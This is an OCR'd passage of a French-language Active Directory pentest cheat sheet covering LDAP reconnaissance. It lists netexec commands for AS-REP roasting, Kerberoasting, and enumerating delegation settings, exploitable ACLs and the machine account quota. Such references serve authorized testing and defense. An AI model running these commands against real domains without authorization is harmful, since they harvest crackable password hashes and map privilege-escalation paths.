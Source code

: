   

* **Contexte :** Interrogation de l'annuaire AD pour obtenir des informations sur les objets (utilisateurs, groupes, ordinateurs).

* **Usage :** Reconnaissance fondamentale en environnement AD. Peut souvent être fait avec un compte utilisateur standard.

  

#### Attaques Basées sur LDAP

  

```bash

# AS-REP Roasting (Recherche/Exploitation des comptes sans pré-authentification)

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>] --asreproast <fichier_hashes>

# Note: Peut parfois fonctionner en anonyme si on fournit une liste d'utilisateurs (-u users.txt -p '')

  

# Kerberoasting (Recherche/Exploitation des comptes avec SPN)

netexec ldap <DC_cible> -u <user> -p <pass | -H hash> --kerberoasting <fichier_hashes>

  

# Énumérer les comptes avec délégation non contrainte (Unconstrained Delegation)

netexec ldap <DC_cible> -u <user> -p <pass | -H hash> --trusted-to-auth

  

# Énumérer les ACLs intéressantes (peut révéler des chemins de PrivEsc)

netexec ldap <DC_cible> -u <user> -p <pass | -H hash> -M acl [-o USER="<user_cible>"]

  

# Énumérer le quota de création de comptes machine (ms-DS-MachineAccountQuota)

netexec ldap <DC_cible> [-u <user> -p <pass | -H hash>] -M maq

```

  

* **Contexte :** Utilisation de requêtes LDAP spécifiques pour identifier des configurations vulnérables ou extraire des informations permettant des attaques hors ligne (crack de hash).

* **Usage :** Recherche de vecteurs d'escalade de privilèges ou de compromission de comptes.

  

---